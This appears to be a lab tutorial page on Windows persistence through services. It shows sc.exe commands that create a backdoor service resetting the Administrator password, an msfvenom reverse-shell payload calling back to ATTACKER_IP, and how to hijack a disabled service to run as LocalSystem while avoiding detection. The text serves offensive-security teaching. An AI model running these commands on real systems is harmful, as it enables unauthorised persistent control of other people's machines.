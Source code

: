 A service is basically an executable that runs in the background. When configuring a service, we define which executable will be used and select if the service will automatically run when the machine starts or should be manually started.

There are two main ways we can abuse services to establish persistence: either create a new service or modify an existing one to execute our payload.

### Creating Backdoor Services

We can create and start a service named "THMservice" using the following commands:

```cmd
# There must be a space after the equal sign
sc.exe create THMservice binPath= "net user Administrator Passwd123" start= auto
sc.exe start THMservice
```

The `net user` command will be executed when the service is started, resetting the Administrator's password to `Passwd123`. Notice how the service has been set to start automatically (`start= auto`), so that it runs without requiring user interaction.

Resetting a user's password works well enough, but we can also create a reverse shell with msfvenom and associate it with the created service. Notice, however, that service executables are unique since they need to implement a particular protocol to be handled by the system. If we want to create an executable that is compatible with Windows services, we can use the `exe-service` format in msfvenom: `msfvenom -p windows/x64/shell_reverse_tcp lhost=ATTACKER_IP lport=4446 -f exe-service -o service.exe`.

We can then copy the executable to our target system, say in `C:\Windows` and point the service's binPath to it:

```cmd
sc.exe create THMservice binPath= "C:\Windows\service.exe" start= auto
sc.exe start THMservice
```

### Modifying Existing Services

While creating new services for persistence works quite well, the blue team may monitor new service creation across the network. We may want to reuse an existing service instead of creating one to avoid detection. Usually, any disabled service will be a good candidate, as it could be altered without the user noticing it.

We can get a list of available services using the following command: `sc.exe query state=all`. To query the service's configuration, we can use the following command: `sc.exe qc SERVICE_NAME`.

There are three things we care about when using a service for persistence:
* The executable (**BINARY_PATH_NAME**) should point to our payload.
* The service **START_TYPE** should be automatic so that the payload runs without user interaction.
* The **SERVICE_START_NAME**, which is the account under which the service will run, should preferably be set to **LocalSystem** to gain SYSTEM privileges.

To reconfigure a service's parameters, we can use the following command: `sc.exe config SERVICE_NAME binPath= "C:\Windows\service.exe" start= auto obj= LocalSystem`.

We can then check the service's configuration to ensure the changes have been applied: `sc.exe qc SERVICE_NAME`.
